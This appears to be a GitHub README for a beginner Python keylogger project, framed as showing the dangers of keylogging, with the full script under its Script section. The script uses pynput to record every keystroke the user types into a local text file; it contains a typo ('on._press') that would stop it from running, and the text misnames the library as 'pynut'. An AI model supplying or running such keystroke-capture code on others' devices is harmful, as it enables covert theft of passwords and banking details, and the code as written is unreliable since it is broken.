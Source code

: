# Keylogger-Python &nbsp; <img src="https://github.com/user-attachments/assets/fa080d46-0f3c-4c19-a3fb-6324e1b6cdf5" width="36">

## Background and Significance 
Keylogging is the method of storing key-strokes on a device, particularly without the user knowing. Having a program such as this running on your device will result in the unaware surrendering of confidential data to malicious hackers, including login credentials and banking details.

## Objective
This mini-project aims to create a successful key-logging script, that when executed, will capture keystrokes made by the user in any environment on the device and store them in a text file automatically for viewing. This project therefore demonstrates the basics of keylogging, highlighting the dangers of this simple technique.
## Skills Learned

## Tools/Languages Used
- VSCode
- Python

## Script
<code>
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on._press=keyPressed) 
    listener.start()
    input()
</code>

## How it Works
1. Keystrokes are listened for using pynut library
2. When this script is executed, These keystrokes are then appended to a file (keyfile.txt)
   
## Tips & Resources
Keylogging Python Tutorial by <strong> Shaun Halverson </strong>: <href> https://www.youtube.com/watch?v=mDY3v2Xx-Q4 </href>
